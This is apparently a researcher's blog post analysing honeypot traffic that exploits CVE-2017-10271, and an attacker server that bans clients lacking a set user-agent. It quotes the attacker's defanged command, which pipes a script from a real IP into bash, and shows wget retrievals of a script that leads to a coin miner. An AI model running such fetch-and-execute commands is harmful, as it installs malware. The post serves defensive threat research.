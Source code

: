 ```yaml
---
title: "Dis-invited from a URL by User-Agent"
#author: "Author Name"
description: "Discussion about attacker traffic providing a URL that blocked connections if they didn't specify a specific user-agent"
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-06-15T00:00:00-00:00
draft: false
---
```

I have to check this thing every day or I miss something.  It's not every day that I see something new - most days are the same things I've already seen and new copies of malware that's basically the same as the old.

This morning, however, I witnessed a tactic I had wondered if anyone considered employing in the past, but hadn't actually observed evidence of.

I had traffic showing an attacker attempting to exploit CVE-2017-10271, dropping software from hxxp://107.181.174.232/lin/st.sh.  This was similar to yesterday's traffic, but then I wasn't able to capture the script before losing the server.  This morning I attempted to grab the script.

```bash
wget hxxp://107.181.174.232/lin/st.sh
--2018-06-15 11:15:13--  hxxp://107.181.174.232/lin/st.sh
Connecting to 107.181.174.232:80... connected.
HTTP request sent, awaiting response... 403 Forbidden
2018-06-15 11:15:14 ERROR 403: Forbidden.
```

Let's try again with the windows version of this...

```bash
wget hxxp://107.181.174.232/win/checking.ps1
--2018-06-15 11:15:56--  hxxp://107.181.174.232/win/checking.ps1
Connecting to 107.181.174.232:80... failed: Connection refused.
```

Interesting - server's there, URL's forbidden.  Then, I try again but "connection refused".  But, the original request from my logs was actually:

```xml
<void index="2">
    <string>wget --user-agent linux -O - hxxp://107.181.174.232/lin/st.sh | bash</string>
</void>
```

The user agent was specified - I only used wget's default.  Normally that's not a problem.

However - an attacker that wants to make things just a bit harder for researchers could filter based on user agent, then turn IP addresses that fail the filter into a firewall rule, banning the IP address.

I try again from a different IP address...

```bash
wget --user-agent linux hxxp://107.181.174.232/lin/st.sh
--2018-06-15 11:18:16--  hxxp://107.181.174.232/lin/st.sh
Connecting to 107.181.174.232:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1073 (1.0K) [application/x-sh]
Saving to: ‘st.sh’

st.sh               100%[===================>]   1.05K  --.-KB/s    in 0s      

2018-06-15 11:18:16 (108 MB/s) - ‘st.sh’ saved [1073/1073]
```

Thank you!

st.sh leads to other downloads, including "xmrig" and "H" for 32/64 bit x86.  At least xmrig looks to be a coin miner called XMRigCC, doing the cryptonight algorithm.

It's great to see some new, simple tactics being used.

Even after going back with the new user-agent, I get a 404 on the windows powershell script download.  I don't know what the powershell user-agent comes out as immediately, or I'd try it.  I don't get the same fail-to-ban behavior using the "linux" user-agent for the Windows download though, perhaps because my IP is already accepted, or perhaps because the aperture for what's accepted is wide enough.
